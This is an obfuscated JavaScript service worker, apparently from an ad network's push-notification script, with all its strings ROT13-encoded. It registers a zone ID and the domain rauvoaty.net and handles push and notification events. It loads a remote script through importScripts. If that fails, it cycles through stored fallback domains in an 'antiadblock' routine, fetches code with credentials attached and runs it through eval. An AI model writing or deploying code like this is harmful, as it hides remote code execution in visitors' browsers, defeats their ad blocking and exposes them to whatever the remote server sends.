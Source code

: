 (function(O){!function(e){var t=O.Z();function n(r){if(t[r])return t[r][O.i];var i=t[r]=O.Z(O.B,r,O.w,!O.X,O.i,O.Z());return e[r]O.z,i[O.w]=!O.N,i[O.i]}n[O.y]=e,n[O.g]=t,n[O.K]=function(e,t,r){nO.h||ObjectO.b},n[O.G]=function(e){O.HO!=typeof Symbol&&Symbol[O.hO]&&ObjectO.b,ObjectO.b},n[O.R]=function(e,t){if(O.X&t&&(e=n(e)),O.v&t)return e;if(O.P&t&&O.t==typeof e&&e&&e[O.U])return e;var r=ObjectO.r;if(nO.G,ObjectO.b,O.d&t&&O.oO!=typeof e)for(var i in e)n[O.K](r,i,function(t){return e[t]}O.fO);return r},n[O.H]=function(e){var t=e&&e[O.U]?function(){return e[O.C]}:function(){return e};return nO.K,t},n[O.h]=function(e,t){return Object[O.FO][O.a]O.z},n[O.e]=O.F,n(n[O.m]=O.o)}(O.Z(O.o,function(module,exports,webpack_require){O.f;var _antiadblock=webpack_require(O.O);self[O.c]=O.Z(O.S,7871918,O.V,"rauvoaty.net",O.l,!O.N),self[O.D]=O.F;var DEFAULT_URL=[O.Y,O.j]O.A,STORE_EVENTS=[O.T,O.u,O.M,O.L,O.n,O.E],url;try{if(url=atob(location[O.DO]O.x),!url)throw O.q}catch(e){url=DEFAULT_URL}try{importScripts(url)}catch(ignore){var events=O.Z(),listeners=O.Z(),realAddEventListener=self[O.yO]O.fO;STORE_EVENTSO.ZO,self[O.yO]=function(e,t){if(-O.X===STORE_EVENTSO.qO)return realAddEventListener(e,t);listeners[e]||(listeners[e]=[]),listeners[e]O.M,events[e]&&events[e]O.ZO},(O.N,_antiadblock[O.I])(url,O.Z())[O.gO](function(e){return eO.UO})[O.gO](function(code){return eval(code)})}},O.O,function(e,t,n){O.f;ObjectO.b,t[O.Q]=function(e){return new Promise(function(t,n){r(O.BO)[O.gO](function(r){var i=rO.tOO.xO[O.WO](O.Z(O.V,e,O.dO,new Date()O.CO));iO.yO,iO.yO})})},t[O.I]=async function(e,t){var n=await new Promise(function(e,t){r(O.BO)[O.gO](function(n){var r=nO.tOO.xOO.PO;rO.yO,r[O.yO](O.EO,function(){return e(r[O.XO][O.oF](function(e){return e[O.V]}))})})}),o=!O.N,a=!O.X,s=void O.N;try{for(var c,u=nSymbol[O.QO];!(o=(c=uO.IO)[O.uO]);o=!O.N){var d=c[O.p];try{return await fetch(O.Y+d+O.s+i(),O.Z(O.YO,t[O.YO]||O.RO,O.jO,O.pO,O.sO,t[O.sO],O.vO,O.Z(O.kO,btoa(e))))}catch(e){}}}catch(e){a=!O.N,s=e}finally{try{!o&&u[O.JO]&&uO.JO}finally{if(a)throw s}}throw new Error(O.eO)},t[O.J]=async function(e){try{var t=await fetch(eO.qO>-O.X?e:O.Y+e);return!O.X===(await tO.bO)[O.TO]}catch(e){return!O.X}};function r(e){return new Promise(function(t,n){var r=indexedDBO.MO;rO.yO,rO.yO,r[O.yO](O.EO,function(){return t(r[O.XO])})})}function i(){var e=arguments[O.iO]>O.N&&void O.N!==arguments[O.N]?arguments[O.N]:O.N,t=e<O.W&&MathO.mO>O.k,n=MathO.mOO.zOO.x;return n+(t?O.s+i(e+O.X):O.F)}}))}([['o',111],['O',17],['F',''],['f','hfr fgevpg'],['Z',function(){const obj={};const args=[].slice.call(arguments);for(let i=0;i<args.length-1;i+=2){obj[args[i]]=args[i+1]}return obj}],['y','z'],['g','p'],['K','q'],['G','e'],['R','g'],['H','a'],['h','b'],['e','c'],['i','rkcbegf'],['m','f'],['z','pnyy'],['w','y'],['N',0],['c','bcgvbaf'],['D','ynel'],['A','wbva'],['T','vafgnyy'],['u','npgvingr'],['M','chfu'],['L','abgvsvpngvbapyvpx'],['n','abgvsvpngvbapybfr'],['E','chfufhofpevcgvbapunatr'],['q',null],['b','qrsvarCebcregl'],['U','__rfZbqhyr'],['Q','nqqQbznva'],['I','hygensrgpu'],['J','grfgCvatQbznva'],['B','v'],['S','mbarVq'],['V','qbznva'],['l','erfhofpevorBaVafgnyy'],['X',1],['Y','uggcf://'],['j','/csr/pheerag/freivpr-jbexre.zva.wf?e=fj&i=2'],['p','inyhr'],['s','/'],['v',8],['a','unfBjaCebcregl'],['W',7],['k',.3],['x','fyvpr'],['d',2],['P',4],['t','bowrpg'],['r','perngr'],['C','qrsnhyg'],['oO','fgevat'],['OO','n'],['FO','cebgbglcr'],['fO','ovaq'],['ZO','sbeRnpu'],['yO','nqqRiragYvfgrare'],['gO','gura'],['KO',3],['GO','rahzrenoyr'],['RO','trg'],['HO','haqrsvarq'],['hO','gbFgevatGnt'],['eO','NNO Erdhrfg Snvyrq'],['iO','yratgu'],['mO','enaqbz'],['zO','gbFgevat'],['wO',36],['NO',10],['cO','Zbqhyr'],['DO','frnepu'],['AO',9],['TO','fgnghf'],['uO','qbar'],['MO','bcra'],['LO','hctenqrarrqrq'],['nO','reebe'],['EO','fhpprff'],['qO','vaqrkBs'],['bO','wfba'],['UO','grkg'],['QO','vgrengbe'],['IO','arkg'],['JO','erghea'],['BO','fjnno'],['SO',':'],['VO','perngrBowrpgFgber'],['lO','qbznvaf'],['XO','erfhyg'],['YO','zrgubq'],['jO','perqragvnyf'],['pO','vapyhqr'],['sO','obql'],['vO','urnqref'],['aO','xrlCngu'],['WO','chg'],['kO','gbxra'],['xO','bowrpgFgber'],['dO','perngrqNg'],['PO','trgNyy'],['tO','genafnpgvba'],['rO','ernqjevgr'],['CO','trgGvzr'],['oF','znc']].reduce((o,i)=>(Object.defineProperty(o,i[0],{get:()=>typeof i[1]!=='string'?i[1]:i[1].split('').map(s=>{const c=s.charCodeAt(0);return c>=65&&c<=90?String.fromCharCode((c-65+26-13)%26+65):c>=97&&c<=122?String.fromCharCode((c-97+26-13)%26+97):s}).join('')}),o),{})))/importScripts(...r=sw)/